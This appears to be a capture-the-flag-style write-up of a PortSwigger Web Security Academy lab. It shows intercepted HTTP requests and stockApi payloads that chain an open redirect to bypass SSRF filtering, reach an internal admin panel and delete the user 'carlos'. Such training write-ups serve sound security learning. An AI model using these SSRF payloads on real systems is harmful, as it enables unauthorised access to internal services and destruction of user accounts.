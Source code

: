 
## Intercepting the main stock-fetch request in BurpSuite

```http

POST /product/stock HTTP/2
Host: 0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
Cookie: session=****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

```
```none
stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1
```

> with 'urlencode' extension

```none

stockApi=<@urlencode>/product/stock/check?productId=14&storeId=1</@urlencode>

```

> I need to bypass regular SSRF protection.
> On the product description page there is an option to open the next product (next product).

## Intercepting this request (functionality next product)

```http

GET /product/nextProduct?currentProductId=15&path=/product?productId=16 HTTP/2
Host: 0a9e004c0393e4df8052ad46005c008a.web-security-academy.net
Cookie: session=****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9e004c0393e4df8052ad46005c008a.web-security-academy.net/product?productId=15
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> I use SSRF filter bypass technology via open redirect. I replace the value of the “path” parameter with “http://192.168.0.12:8080/admin/” in main reqeust
> and receive a response with access to the admin panel.

```none

stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/</@urlencode>

```

> I access the admin panel and users.

![Access Admin panel](./screenshots/access_admin_panel.png)

> I delete the user 'Carlos' with url 'http://192.168.0.12:8080/admin/delete?username=carlos'

```none
 
stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/delete?username=carlos</@urlencode>

```

![Solved lab](./screenshots/solved_lab.png)
